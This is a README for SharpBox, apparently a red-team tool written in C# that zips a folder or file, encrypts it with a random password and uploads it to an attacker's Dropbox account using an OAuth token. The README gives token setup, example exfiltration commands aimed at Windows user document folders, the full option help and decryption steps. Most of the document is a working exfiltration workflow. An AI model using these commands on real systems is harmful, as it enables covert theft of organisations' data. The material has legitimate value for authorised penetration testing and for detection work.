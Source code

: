 # SharpBox
SharpBox is a C# tool for compressing, encrypting, and exfiltrating data to Dropbox using the Dropbox API. 

## Compiling
Target Framework: NET3.5

The libraries added via NuGet for this project were:

- CommandLineParser.1.9.71

- Costura.Fody.1.6.2

- DotNetZip.1.11.0

- Fody.2.1.2


## Usage
Log into your Dropbox account and head over to the [Dropbox developer API explorer](https://dropbox.github.io/dropbox-api-v2-explorer/#auth_token/from_oauth1) page and get an oauth access token by clicking "Get Token".
These access tokens do not expire, but you can revoke them.  So I would recommend revoking tokens after being used on engagments.

Example:

```
SharpBox.exe -f "C:\Users\LegendaryJasonJF\Documents\management-docs" -t "DROPBOX-OATH-ACCESS-TOKEN-HERE" -o "C:\Users\Public\Archive.zip"

SharpBox.exe -f "C:\Users\Meatball\Documents\rip-doc.txt" -t "DROPBOX-OATH-ACCESS-TOKEN-HERE" -o "C:Users\Meatball\Desktop\rip.zip"
```

SharpBox can Zip a single file or folder of items. The compressed file is then encrypted with a randomly generated password and uploaded to Dropbox.  The password is output to the console.  Copy the password and use with the "password" argument when decrypting. 

```
SharpBox 1.1.0
Copyright c  2021 Pickles
Usage: SharpBox <options>

      -f, --path                   Required. path to the file or folder you wish to
                                   compress the contents of

      -o, --OutFile                Name of the compressed file

      -t, --dbxToken               Dropbox Access Token

      -h, --dbxPath                (Default: /test/data) path to dbx folder

      -d, --decrypt                (Default: False) Choose this to decrypt a zip or
                                   cabbed file previously encrypted by this tool.
                                   Requires original password argument.

      -p, --decryption-password    Password to decrypt a zipped or cabbed file.

      --help                       Display this help screen.
  ```
  
  
  Once the compressed/encrypted file is downloaded from Dropbox, you can use this tool to decrypt it as well. 
  
  Example: 
  
  ```
  SharpBox.exe -f "C:\Users\evilDude\Desktop\data" -o "C:\Users\evilDude\Desktop\decrypted-data.zip" -p "RandomlyGeneratedPassword" -d
  ```
  
 ## Acknowledgements
  
 - [@CptJesus](https://twitter.com/CptJesus) for letting me borrow the password gen snippet from [SharpHound](https://github.com/BloodHoundAD/SharpHound).
